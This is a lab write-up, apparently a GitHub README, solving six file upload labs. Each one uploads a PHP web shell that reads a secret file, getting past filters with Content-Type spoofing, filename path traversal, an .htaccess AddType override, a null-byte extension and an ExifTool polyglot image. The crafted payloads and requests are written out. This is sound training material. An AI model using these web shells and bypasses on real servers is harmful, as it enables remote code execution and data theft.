







# File upload vulnerabilities
## 1. Remote code execution via web shell upload


### Description
Relatively simple lab involving remotely executing PHP code to retrieve a secret at `/home/carlos/secret`.

### Solution
First, I looked for the vector of attack. I noticed a "My Account" button on the top-right, which led me to a page where I could upload my own avatar onto the server. This can be seen in the completion screenshot above.

The lab mentioned that arbitrary uploads are allowed, so I just created a PHP file with the following code:
> ```php
> <?php system('cat /home/carlos/secret'); ?>
> ```

I uploaded it, then backed out from the success notification page.

Here, I could either inspect the Network tab using DevTools or use BurpSuite to view the HTTP history, since I'm expecting the image to be retrieved upon the page loading. I chose to look at BurpSuite and inspected the response:



I submitted this through the submission option in the lab, which accepted it as the correct answer.

## 2. Web shell upload via Content-Type restriction bypass


### Description
Relatively simple lab involving remotely executing PHP code to retrieve a secret at `/home/carlos/secret`. \
Now the application blocks types that are not images, but depends on the `Content-Type` HTTP header to detect it.

### Solution
Since the lab has already told us that the application is only looking at the `Content-Type` header, I simply intercepted the POST request for the image upload using Repeater, and modified its header as follows:

> ```php
> ------WebKitFormBoundaryl6Ap7k9EH4VFGLti
> Content-Disposition: form-data; name="avatar"; filename="php-ws1.php"
> Content-Type: image/png
> 
> <?php system('cat /home/carlos/secret'); ?>
> ```

It then gave the following response:

> ```html
> The file avatars/php-ws1.php has been uploaded.<p>
>     <a href="/my-account" title="Return to previous page">
>         « Back to My Account
>     </a>
> </p>
> ```

Then, I backed out into the My Account page, which will automatically try to load my avatar "image." I simply checked BurpSuite's Proxy and viewed the response, which contained the secret:

> `pNP7pCVuL94aw60KReIGjlEa1y1cdEyG`

Upon submission, the lab accepted it as the correct answer.

## 3. Web shell upload via path traversal


### Description
Relatively simple lab involving remotely executing PHP code to retrieve a secret at `/home/carlos/secret`. \
This time, the application blocks execution of any code within the `/files/avatar` directory.

### Solution
This one was not as simple, but still quite obvious having done the [path traversal](../path-traversal/README.md) labs.

Since the app prevents execution in the `/avatar` directory, it may not prevent execution in `/files`. I did something similar to one of the path traversal labs, where I changed the filename in the initial POST request to include a traversal sequence as follows:

> ```php
> ------WebKitFormBoundarywCBCwHwmAhQW8KBG
> Content-Disposition: form-data; name="avatar"; filename="..%2Fphp-ws1.php"
> Content-Type: application/x-php
> 
> <?php system('cat /home/carlos/secret'); ?>
> ```

Note the `..%2F` prepended to the `filename` field.

Upon submitting this request, it responded with a success acknowledgement page. I backed out into the My Account page and inspected the response payload for the image request. It contained a string that looked like a secret:

> `yw2PC3vv7Fimcfaet2s0gpQqrgqpfa41`

After submitting this, it turned out to be the correct secret from `/home/carlos/secret`.


## 4. Web shell upload via extension blacklist bypass


### Description
Same goal as the previous labs, but now the application blacklists `.php` files.

### Solution
This one was much harder than the previous one. After a few minutes of contemplating, I finally spotted a small detail:
> ```
> HTTP/2 403 Forbidden
> Date: Sat, 31 Oct 2026 18:53:28 GMT
> Server: Apache/2.4.41 (Ubuntu)
> ```

It seems that I was talking to an Apache server. I did a little research, and it turns out Apache servers have a configuration file called `.htaccess`, which contains directives on how the server should deal with certain things, **including** how to treat certain file extensions.

There was one particularly useful directive called `AddType`, which will allow me to associate a file extension of **my choosing** to a pre-existing file type, such as PHP files!

I created a new file and sent it through the file upload as `.htaccess`:
> `AddType application/x-httpd-php .pwned`

The POST request succeeded as this file has absolutely no extensions at all, thus an extension blacklist would do nothing against it.

I then proceeded to rename my exploit (which I re-used from [1](#1-remote-code-execution-via-web-shell-upload)) to `php-ws1.pwned` and proceeded in the request as follows:

> ```php
> ------WebKitFormBoundarynzrGapOnu7nRGr1x
> Content-Disposition: form-data; name="avatar"; filename="php-ws1.pwned"
> Content-Type: application/octet-stream
> 
> <?php system('cat /home/carlos/secret'); ?>
> ```

This time, the upload succeeded. I backed out into the My Account page and looked at the GET request for the "image", which yielded the secret:
> `rZxBcYKqLDqE1rQY6aw6F8oGCNWZHWm5`

Submitting it verified the answer and completed the lab.

## 5. Web shell upload via obfuscated file extension


### Description
Same goal as the previous labs, but now the application **whitelists** only `.jpg` and `.png` files.

### Solution
This one was actually more straightforward than [4](#4-web-shell-upload-via-extension-blacklist-bypass). Though part of that is a trick I learned from one of the [path traversal](../path-traversal/README.md) labs.

First, I attempted to upload `php-ws1.php` as-is. Unsurprisingly, I received the following response:

> ```html
> HTTP/2 403 Forbidden
> Date: Sat, 31 Oct 2026 19:31:23 GMT
> Server: Apache/2.4.41 (Ubuntu)
> Content-Type: text/html; charset=UTF-8
> X-Frame-Options: SAMEORIGIN
> Content-Length: 171
> 
> Sorry, only JPG & PNG files are allowed
> Sorry, there was an error uploading your file.<p>
>   <a href="/my-account" title="Return to previous page">
>       « Back to My Account
>   </a>
> </p>
> ```

This meant that the server is whitelisting those two file types. However, I know that when Apache looks at filenames, it will treat the null byte as the normal terminator, signalling it to stop reading. Therefore, all I needed to do was modify the filename as follows:

> ```
> filename="pwned.php%00.png"
> ...
> Content-Type: image/png
> ```

Technically, it has a .png extension, but it will most likely be saved as a `.php` file if no further defenses are implemented. I backed out onto the My Account page and checked the response for the GET response for the avatar image. The following was included in the response:

> `iz5o8HHT6zX2CfoghrWV8MvNsds4ip5B`

Submitting this into the solution tells me that it was the correct answer, which means the lab is complete.

## 6. Remote code execution via polyglot web shell upload


### Description
Same goal as the previous labs, but now the application checks the bytes of the file to ensure that it's a valid image file.

### Solution
This one was more complex than the last five. The lab specifically mentions that it checks the file to ensure that it's an image file. To me, this sounds like it might be checking the file's metadata for an indication that it's an image file, such as its MIME type.

To inject payload into an image's metadata is actually rather simple with a tool such as ExifTool, but before that I needed to change the exploit slightly:

> ```php
> <?php system('cat /home/carlos/secret'); ?>
> # TO
> <?php echo 'PWNED'; system('cat /home/carlos/secret'); echo 'LOL' ?>
> ```

The purpose of the change is to add delimiters to the result of the shell execution. Otherwise, I'd have to strain my eyes looking for a series of strings in the middle of binary data.

The reason why this exploit works is because PHP was originally designed to live inside HTML files. It has what's called a "tokenizing" feature, which ignores characters until it finds valid PHP syntax; the `<?php` token in particular. Therefore, if I injected this payload into the image file and saved it as `pwned.php`, the server will think it's a valid image file despite it having a `.php` extension as it has valid image metadata. However, the Apache server will likely route the file to a PHP interpreter due to it having a `.php` extension, which will scan it until it finds and executes the malicious payload.

To complete the exploit, I used ExifTool to inject my exploit into the `Comment` field of a random image. I first retrieved a random image from Lorem Picsum:

> ```sh
> curl -L https://picsum.photos/200 -o random.jpg
> ```

Here's the original picture for reference:


And here's the version with the injected payload:


They look pretty much identical! But upon inspection using ExifTool, the injected payload has the following field in its metadata:
> `Comment: <?php echo 'PWNED'; system('cat /home/carlos/secret'); echo 'LOL';?>`

You can actually confirm this by using ExifTool on the image file found [here](/file-upload/img/polyglot/pwned.jpg)!

In any case, I uploaded this to the server and inspected the response. As expected, there was a LOT of binary noise, but thanks to the delimiters, I was able to find the secret:



The above yielded the secret:
> `lUpXhrgjUNq1CbuzHbHjBAdquxLV7HQ1`

In hindsight, I probably should have used markers like `---` instead of words, but I guess that's a lesson for the future now. I quickly copied the text between the delimiters and submitted it to the lab. It was accepted and the lab was complete!